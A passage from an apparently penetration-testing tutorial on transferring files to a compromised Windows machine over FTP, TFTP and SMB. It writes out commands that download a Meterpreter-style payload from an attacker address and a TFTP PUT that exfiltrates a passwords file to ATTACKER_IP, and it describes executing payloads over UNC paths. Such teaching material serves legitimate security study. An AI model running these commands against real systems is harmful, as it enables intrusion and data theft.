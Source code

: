 How to get that text file? We can echo into it one line at at time:

C:\Users\jarrieta\Desktop&gt;echo open 10.9.122.8&gt;ftp\_commands.txt  
C:\Users\jarrieta\Desktop&gt;echo anonymous&gt;&gt;ftp\_commands.txt  
C:\Users\jarrieta\Desktop&gt;echo whatever&gt;&gt;ftp\_commands.txt  
C:\Users\jarrieta\Desktop&gt;echo binary&gt;&gt;ftp\_commands.txt  
C:\Users\jarrieta\Desktop&gt;echo get met8888.exe&gt;&gt;ftp\_commands.txt  
C:\Users\jarrieta\Desktop&gt;echo bye&gt;&gt;ftp\_commands.txt  
C:\Users\jarrieta\Desktop&gt;ftp -s:ftp\_commands.txt

or in oneliner.

## TFTP

Trivial file transfer protocol is another possiblity if `tftp` is installed on the system. It used to be installed by default in Windows XP, but now needs to be manually enabled on newer versions of Windows. If the Windows machine you have access to happens to have the `tftp` client installed, however, it can make a really convenient way to grab files in a single command.

### **Starting the Server**

Kali comes with a TFTP server installed, `atftpd`, which can be started with a simple `service atftpd start`. I’ve always had a hell of a time getting it configured and working though, and I rarely need to start and keep running a TFTP server as a service, so I just use the simpler Metasploit module.

### **Downloading the Files**

Again, assuming the `tftp` utility is installed, you can grab a file with one line from the Windows prompt. It doesn't require any authentication. Just simply use the `-i` flag and the `GET` action.

`tftp -i ATTACKER_IP GET met8888.exe`

Exfiltrating files via TFTP is simple as well with the `PUT` action.

`tftp -i ATTACKER_IP PUT passwords.exe`

TFTP is a convenient, simple way to transfer files as it doesnâ€™t require authentication and you can do everything in a single command.

#### **Sidenote: Installing TFTP**

As I mentioned, TFTP is not included by default on newer versions of Windows. If you really wanted to, you can actually enable TFTP from the command line:

Might come in handy, but I’d always rather “live off the land” and use tools that are already available.

## SMB

This is actually my favorite method to transfer a file to a Windows host. SMB is built in to Windows and doesn’t require any special commands as Windows understands UNC paths. You can simply use the standard `copy` and `move` commands and SMB handles the file transferring automatically for you. What’s even better is Windows will actually let you _execute files_ via UNC paths, meaning you can download and execute a payload in one command!
